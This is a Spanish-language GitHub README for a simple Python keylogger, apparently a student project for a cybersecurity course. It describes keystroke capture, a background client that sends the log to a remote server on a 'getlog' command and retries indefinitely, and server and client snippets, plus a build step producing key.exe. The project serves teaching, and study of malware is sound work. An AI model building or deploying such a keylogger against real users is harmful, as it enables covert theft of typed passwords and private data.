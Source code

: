 # Keylogger simple

----
Mi user github: https://github.com/desmonHak/
----

Este es un pequeño keylogger simple hecho en python para mi asignatura de ciberseguridad en DAM2.

El keylogger contiene dos hilos, el primero se encarga de gestionar el tema del teclado, mientras que el segundo permite al kelogger conectarse contra un servidor, este podra lanzar comandos al keylogger para que le envie el .log(las teclas pulsadas). 

Este codigo no tiene ningun fin mas que educativo y ser una muestra del funcionamiento de este tipo de malware.

----

## instalacion de dependencias

para instalar las dependencias deberemos ejecutar lo siguiente:
```
pip install -r requirements.txt
```

----

### Descripcion del proyecto

El proyecto contiene dos scripts, `main.py` es el keylogger como tal, el segundo
script, `tools.py` es una pequeña utilidad que hice para leer el archivo de
log de forma correcta. Tambien tiene una segunda opcion que permite abrir un
servicio multihilo en local:
```python
def create_server():
    global _all_threads
    s = socket()
    s.bind(("0.0.0.0", 8888))
    s.listen(10)

    print("Servidor escuchando en 0.0.0.0:8888")
    conn, addr = s.accept()
    print(f"Conexion desde {addr}")
    t = Thread(target=handle_client, args=(conn, addr), daemon=True)
    t.start()
    _all_threads.append(t)
    try: t.join()
    except Exception as e:
        print("Error en el hilo:", e)
    return t
```

puede configurar el puerto cambiando el `8888` por el que quiera.
Este pequeño servidor sirve para que el keylogger se conecte y envie el log,
el servidor puede enviar un comando `getlog` solicitando el log, y el cliente
(keylogger) enviara un buffer dinamico que sera el log con las teclas.
En caso de que el servidor se cierre, el keylogger seguira funcionando de fondo,
podra reabrir otro servidor y el keylogger reintentara la conexion de forma
indefinida en intervalos de 1s.

Puede configurar el keylogger para que se conecte a la IP que usted quiera:
```python
if __name__ == "__main__":
    try:
        keys = Keylogger(
            "127.0.0.1", 8888)
        keys.thread_kewyboard.start()
        keys.thread_client.start()
        keys.thread_kewyboard.join()
    except KeyboardInterrupt:
        pass
    print_debug("Hilo keyboard listener terminado")
    exit(0)
```
Debera cambiar `127.0.0.1` y `8888` por la IP y puerto que quiera usar, como 
es para fines de demostracion las pruebas se realizaron en local.

El keylogger se puede finalizar usando la tecla escape(``esc``) y podra decirle
al keylogger que guarde el log al pulsar la tecla `f1`.

El keylogger esta configurado para que cada 4 pulsaciones de teclas, se auto-almacene
todo en el archivo log, pero puede cambiar esto en la variable `counter_keywords`.

----

## Generar ejecutable

Una vez instalada las dependencias, ejecutamos el archivo `build.bat` via
`cmd` o doble click, y deberia generar un ejecutable `key.exe`

----
